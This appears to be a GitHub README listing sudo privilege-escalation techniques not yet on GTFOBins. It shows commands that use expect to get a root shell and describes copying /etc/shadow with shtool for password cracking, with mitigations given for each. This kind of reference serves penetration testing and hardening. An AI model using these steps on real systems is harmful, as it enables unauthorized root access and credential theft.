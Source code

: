 # Unlisted Sudo Privilege Escalation Binaries (Not on GTFOBins)

This document contains a list of binaries that have **sudo permissions** but are **not listed on GTFOBins** for privilege escalation.  

While **GTFOBins** provides a well-documented collection of sudo-exploitable binaries, new or lesser-known binaries with **potential privilege escalation (PrivEsc) capabilities** may not yet be listed.  

Each binary below is analyzed for privilege escalation techniques, exploitation steps, and possible mitigations.

---

## `expect` - Sudo Privilege Escalation

### **Description**
`expect` is an automation tool that interacts with applications requiring user input. If granted **sudo permissions**, it can be exploited to execute arbitrary commands as root.

### **Exploitation**
If `expect` is allowed with `sudo`, you can escalate privileges using the following:

```sh
sudo /usr/bin/expect
At the expect prompt, execute:

expect1.1> whoami
root
expect1.2> bash
[root@my_privilege user]# id
uid=0(root) gid=0(root) groups=0(root)
Mitigation

    Remove sudo permissions for expect (/usr/bin/expect).
    Restrict expect usage through sudoers configuration.
    Use AppArmor or SELinux to prevent execution of unauthorized commands.
shtool - Sudo Privilege Escalation
Description

shtool is a script utility tool commonly used for installation tasks. If granted sudo permissions, it can be abused to copy sensitive system files (e.g., /etc/shadow) to a location accessible by a lower-privileged user, enabling privilege escalation.
Exploitation

If shtool is available with sudo, you can copy /etc/shadow to a user-accessible directory and attempt password cracking to escalate privileges.


